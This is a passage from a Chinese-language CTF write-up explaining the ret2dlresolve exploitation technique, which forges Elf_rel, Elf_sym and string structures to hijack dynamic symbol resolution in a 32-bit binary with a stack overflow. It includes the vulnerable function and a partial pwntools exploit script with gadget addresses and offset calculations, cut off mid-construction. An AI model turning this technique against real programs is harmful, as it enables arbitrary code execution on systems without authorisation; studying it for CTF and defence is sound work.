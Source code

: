 上面这个方法也叫伪造 link_map(但是实际上是构造结构)

进行这个攻击只需要两个条件：足够大的空间让我们布置栈(可以迁栈也可以)，partial relro(但是更明显的表示是没有输出函数)
## 攻击
```c
ssize_t vuln()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  return read(0, buf, 0x100u);
}
```
网上随便找的题，就一个read函数，没有system函数，没有参数，没有打印函数
### 思路布局
在利用漏洞前我们一定要明确我们每一步操作甚至每一个数据的目的是什么，不然就会被庞大的数据绕晕了，因为好几个数据都是由两个数据来决定的，所以我们控制其中一个就好了

1. 伪造reloc_arg为index_offset，欺骗程序把`我们构造的数据`内容识别为Elf_rel
2. 伪造Elf_rel中的r_info，欺骗程序把`bss_stage+36`处的内容识别为Elf_sym
3. 伪造Elf_sym中的st_name，欺骗程序把`bss_stage+52`处的内容识别为str

bss_stage后面的数字都是经过调试测出来为了对齐而选择的，只要构造得不会让程序crush随便你选位置

这就是我们想要的栈布局(数据经过调试调整了一下)  

![ret2dll1](https://s2.loli.net/2025/01/05/ec2WqlwbI9GAu8C.png)

另附一张正常的栈布局

![ret2dll2](https://s2.loli.net/2025/01/05/CpGunjEktBdQ5JA.png)

### 数据构造
配合脚本讲具体一点，配合上面的图食用更佳
```python
from pwn import *
from LibcSearcher import*
#context.log_level = 'debug'
context.terminal = ['tmux', 'sp', '-h']

file_name = "./pwn"
e=ELF(file_name)
url = ""
port = 0

io = process(file_name) 

#准备数据-------------------------------------------------
plt0 = e.get_section_by_name('.plt').header.sh_addr
rel_plt = e.get_section_by_name('.rel.plt').header.sh_addr
dynsym = e.get_section_by_name('.dynsym').header.sh_addr
dynstr = e.get_section_by_name('.dynstr').header.sh_addr
offset=44
read_plt_addr=e.plt['read']
four_pop_ret=0x080485d8
leave_ret_addr=0x0804854A
base_addr=0x0804a800


#构造-----------------------------------------------------

reloc_index=base_addr+24-rel_plt # 这个是偏移，让程序在base+24的地方找Elf_rel

 
fake_sym_addr=base_addr+32         #先算我们要放置数据的地方，以fake_sym为基准(因为最终是去这个结构体里找str的偏移)
align=0x10-((fake_sym_addr-dynsym)&0xf)   #以对齐的dynsym做参考来计算对齐差的字节数
fake_sym_addr+=align    #最终的地址就是上面的0x804a82c，以c对齐
```
